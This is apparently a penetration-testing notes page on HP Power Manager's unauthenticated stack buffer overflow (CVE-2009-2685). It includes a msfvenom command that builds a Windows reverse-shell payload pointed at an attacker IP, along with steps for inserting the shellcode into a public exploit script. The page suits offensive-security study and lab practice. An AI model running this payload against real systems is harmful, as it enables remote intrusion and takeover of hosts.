 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# HP Power Manager

[HP Power Manager](https://support.hpe.com/connect/s/softwaredetails?language=en_US\&collectionId=MTX-5e018b0ac2014363\&tab=releaseNotes) is a Windows-based system management application developed by Hewlett-Packard that provides centralized control and monitoring of power consumption across HP servers and client devices. It allows administrators to optimize energy usage, enforce power policies, and schedule power-on/power-off or sleep/hibernate states for devices within an enterprise environment. The software integrates with HP management consoles and supports reporting on historical and real-time power metrics, enabling organizations to reduce energy costs and improve operational efficiency.

## Unauthenticated RCE

HP Power Manager is affected by a stack-based buffer overflow in the login form of the management web server ([CVE-2009-2685](https://nvd.nist.gov/vuln/detail/CVE-2009-2685)). An unauthenticated remote attacker can exploit this vulnerability by sending a specially crafted value in the `Login` parameter, which allows arbitrary code execution in the context of the web server process. A working Python-based [PoC](https://www.exploit-db.com/exploits/10099) is available:

{% code overflow="wrap" %}
```bash
# Generate the payload
msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.241 LPORT=80 -e x86/alpha_mixed -f c
```
{% endcode %}

Insert the shellcode into the script:

{% code title="10099.py" overflow="wrap" %}
```python
<SNIP>

# [*] Using Msf::Encoder::PexAlphaNum with final size of 709 bytes
# badchar = "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a"
SHELL = (
"n00bn00b"
"\xeb\...<SNIP>...\x5a")

<SNIP>
```
{% endcode %}

